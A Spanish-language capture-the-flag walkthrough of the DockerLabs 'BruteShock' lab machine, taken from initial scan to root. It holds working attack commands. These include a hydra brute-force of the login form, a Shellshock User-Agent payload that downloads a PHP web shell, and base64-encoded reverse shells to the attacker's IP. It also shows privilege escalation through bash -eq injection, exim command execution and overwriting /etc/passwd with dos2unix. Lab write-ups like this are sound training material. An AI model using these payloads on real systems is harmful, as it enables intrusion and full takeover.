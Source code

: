 # bruteshock

Hoy resolveremos la máquina "BruteShock" de [DockerLabs](https://dockerlabs.es)

Autor: [Darksblack & maciiii\_\_\_(yo)](https://linktr.ee/maciiii___)

Dificultad: Medio

![BruteShock](../../../maquina-bruteshock/img/BruteShock.png)

## RECONOCIMIENTO

Comenzamos con un escaneo de `nmap`

```css
nmap -sSVC -p- -Pn --open --min-rate 5000 -n -vvv 172.17.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.95 scan initiated Sat Nov  2 15:15:00 2024 as: nmap -sSVC -p- -Pn --open --min-rate 5000 -n -vvv -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000012s latency).
Scanned at 2024-11-02 15:15:01 -03 for 8s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.62 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Nov  2 15:15:09 2024 -- 1 IP address (1 host up) scanned in 8.36 seconds
```

En este caso solo el puerto 80 está abierto y corre `Apache httpd 2.4.62`.

Vamos a la web y no encontramos con lo siguiente:

![web](../../../maquina-bruteshock/img/web.png)

Como vemos tenemos un panel de login, y si probamos las credenciales básicas no no sirve, por lo que recurrimos a `hydra`, pero primero revisamos si tenemos cookies:

![cookies](../../../maquina-bruteshock/img/cookies.png)

al parecer tenemos una, por la que también se la pasaremos a `hydra` para que haga el ataque: Formato:

```css
hydra -l <user> -P <wordlist> <ip> http-post-form "/index.php:username=^USER^&password=^PASS^:H=Cookie: <nombre de la cookie>=<cookie>:F=<mensaje de error>" -V
```

Aplicado:

```css
hydra -l admin -P /opt/rockyou.txt 172.17.0.2 http-post-form "/index.php:username=^USER^&password=^PASS^:H=Cookie: PHPSESSID=4iulq1ru3emdckdsoipiuq413m:F=Credenciales incorrectas." -V
```

![hydra](../../../maquina-bruteshock/img/hydra.png)

Ingresamos las credenciales y vemos la siguiente página:

![web2](../../../maquina-bruteshock/img/web2.png)

De primeras parece un pishing pero no lo es, si probamos a ingresar algo no pasa nada interesante, pero en el mensaje dice "User-Agent almacenado en el log". Luego de buscar de que puede tratar ([info](https://blog.cloudflare.com/inside-shellshock/)) intento aprovecharlo. Para esto abro burpsuite y pruebo lo siguiente:

1.  Inicio un servidor con python:

    ```css
    python3 -m http.server 8000
    ```
2.  Creo un archivo php que me permita ejecutar comandos al subirlo:

    ```php
    <!DOCTYPE html>
    <html>
    <body>
    <form method="GET">
        <input type="text" name="cmd" placeholder="command">
        <button type="submit">Ejecutar</button>
    </form>
    <pre>
    <?php
    if (isset($_GET['cmd'])) {
        system($_GET['cmd']);
    }
    ?>
    </pre>
    </body>
    </html>
    ```
3.  Capturo la petición al entrar a la página y lo envío al repeater(ctrl+r):

    ![request](../../../maquina-bruteshock/img/request.png)
4.  Cambio el user-agent por lo siguiente:

    ```css
    () { :; }; curl 172.17.0.1:8000/cmd.php -o cmd.php
    ```

Una vez ejecutado veremos esto:

![python3](../../../maquina-bruteshock/img/python3.png)

ahora que la shell se guardó, entramos por el navegador y veremos una página para ejecutar comandos:

![web2](../../../maquina-bruteshock/img/web3.png)

ya podemos ejecutar comandos en la máquina victima.

## INTRUSIÓN

Para enviarnos una reverse shell no lo podemos hacer con la típica shell de bash, ya que al parecer la máquina las bloquea, por lo que usaremos la página [revshells](https://revshells.com) y usaremos la de `php exec`, escuchamos en el puerto 443 con netcat (`sudo nc -lvnp 443`) y la enviamos por la web en base64 de la siguiente manera:

```css
echo "cGhwIC1yICckc29jaz1mc29ja29wZW4oIjE3Mi4xNy4wLjEiLDQ0Myk7ZXhlYygiYmFzaCA8JjMgPiYzIDI+JjMiKTsn" | base64 -d | bash
```

Una vez enviado habremos ganado acceso.

## ESCALADA DE PRIVILEGIOS

#### www-data

Para hacer el tratamiento de la tty es un poco distinto, deberemos hacer lo siguiente:

```bash
export SHELL=bash
export TERM=xterm
script /dev/null -c bash
^Z

stty raw -echo; fg
reset xterm
```

Ahora si revisamos los usuarios en la máquina, veremos 3:

`darksblack`

`maci`

`pepe`

Si buscamos cada archivo por cada usuario veremos lo siguiente:

```css
find / -user "darksblack" 2>/dev/null
```

```css
/home/darksblack
/var/backups/darksblack
/var/backups/darksblack/.darksblack.txt
```

Como vemos tenemos un txt el cual si lo leemos es el hash del shadow para el usuario darksblack, por lo que utilizaremos este metodo para crackear la contraseña: [Cracking a shadow password using john the ripper](https://www.mohammedalani.com/tutorials/cracking-a-shadow-password-using-john-the-ripper/)

Una vez completado todos los pasos obtendremos la siguiente contraseña:

![john](../../../maquina-bruteshock/img/john.png)

Por lo que escalamos con `su darksblack` e introducimos sus credenciales.

#### Darksblack

Si ejecutamos `sudo -l` veremos que podemos ejecutar como el usuario "maci" un script que se encuentra en su home (por lo que no lo podremos leer), así que lo ejecutamos y vemos que pasa:

![scriptsh](../../../maquina-bruteshock/img/scriptsh.png)

Al parecer tenemos que adivinar un numero, este script puede que use un `eq comparer` de bash para verificar si nuestra entrada es correcta, por lo que si el script usó doble corchete para hacerlo, podremos inyectar un comando y escalar, para hacerlo escribiremos lo siguiente en la adivinanza:

```css
a[$(/bin/bash >&2)]+42
```

[Mas Info](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/bash-eq-privilege-escalation/)

#### Maci

Ahora al ejecutar `sudo -l`, veremos que podemos ejecutar el binario `exim` como el usuario pepe, si investigamos de como escalar encontraremos exploits, pero no son útiles en este caso, ya que exim nos permite ejecutar comandos de la siguiente manera:

```css
exim -be 'x=${run{/bin/id}}'
```

Por lo que si lo ejecutamos con sudo como el usuario pepe, estaríamos ejecutando comandos como ese usuario. Para poder escalar no podemos hacerlo con ejecutar "/bin/bash" o "/bin/bash -p", ya que exim no nos dejará hacerlo, la manera correcta es crear un script en "/tmp/" y que contenga la misma shell de php que usamos para entrar solo que dirigida a otro puerto, la manera simple es esta:

1. Escuchamos con netcat en el puerto 4444
2.  Luego ejecutamos lo siguiente:

    ```css
    echo '#!/bin/bash' > /tmp/script && echo "echo 'cGhwIC1yICckc29jaz1mc29ja29wZW4oIjE3Mi4xNy4wLjEiLDQ0NDQpO2V4ZWMoImJhc2ggPCYzID4mMyAyPiYzIik7Jw==' | base64 -d | bash" >> /tmp/script && chmod +x /tmp/script && sudo -u pepe exim -be 'x=${run{/tmp/script}}'
    ```

en resumen el comando crea el script y lo ejecuta como pepe. Una vez ejecutado habremos recibido una shell como el usuario pepe.

#### Pepe

Ahora al ejecutar `sudo -l` veremos que podemos ejecutar el binario `dos2unix` como root, por lo que para escalar deberemos hacer lo siguiente:

1.  Creamos un archivo en `/tmp/` llamado passwd con el contenido de `/etc/passwd` solo que eliminando la "x" de root, una vez creado ejecutamos lo siguiente:

    ```css
    passwd1=/tmp/passwd
    passwd2=/etc/passwd
    ```
2.  Ejecutamos `dos2unix` de la siguiente manera:

    ```css
    sudo dos2unix -f -n "$passwd1" "$passwd2"
    ```

#### Root

Escalamos a root ejecutando `su`.

![root](../../../maquina-bruteshock/img/root.png)

Gracias por leer.....
